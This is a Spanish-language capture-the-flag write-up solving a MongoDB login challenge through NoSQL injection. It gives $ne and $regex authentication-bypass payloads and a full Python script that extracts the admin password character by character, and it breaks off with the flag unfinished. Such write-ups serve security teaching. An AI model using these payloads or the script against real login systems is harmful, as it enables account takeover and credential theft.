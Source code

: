 # secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.

![image.png](image/image_01.png)

Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`

![image.png](image/image_02.png)

Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`

![Screenshot 2024-11-25 at 22.57.41.png](image/image_03.png)

Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

![me](https://github.com/darkxvortex/TH_practica_2/blob/main/secret_meeting/solve/image/vid_01.gif)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.
